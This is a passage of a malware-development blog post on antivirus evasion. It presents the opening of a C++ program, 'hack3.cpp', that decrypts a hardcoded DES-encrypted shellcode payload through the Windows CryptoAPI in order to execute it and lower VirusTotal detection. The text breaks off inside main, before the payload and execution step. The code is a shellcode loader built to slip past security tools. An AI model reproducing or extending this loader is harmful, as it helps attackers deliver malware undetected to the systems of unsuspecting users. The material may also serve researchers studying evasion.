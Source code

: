 ![av-evasion](/assets/images/88/2023-02-14_21-11.png){:class="img-responsive"}      

### practical example 3

I was wondering how this will affect the indicators of virustotal analysis if I hardcode encrypted payload and try to decrypt it and exec it. So, final source code is looks like this (`hack3.cpp`):     

```cpp
/*
 * hack.cpp - decrypt shellcode via DES (custom key) and exec. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/13/malware-av-evasion-11.html
*/
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#pragma comment (lib, "crypt32.lib")

void decrypt_des(const unsigned char *my_payload, unsigned char *output, int my_payload_len, HCRYPTKEY hKey) {
  DWORD block_len = 8;
  int i;
  int n = my_payload_len / block_len;

  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    CryptDecrypt(hKey, 0, (i == n - 1), 0, output, &block_len);
    my_payload += block_len;
    output += block_len;
  }
}

int main() {
  DWORD block_len = 8;
  HCRYPTPROV hProv;
  HCRYPTKEY hKey;
```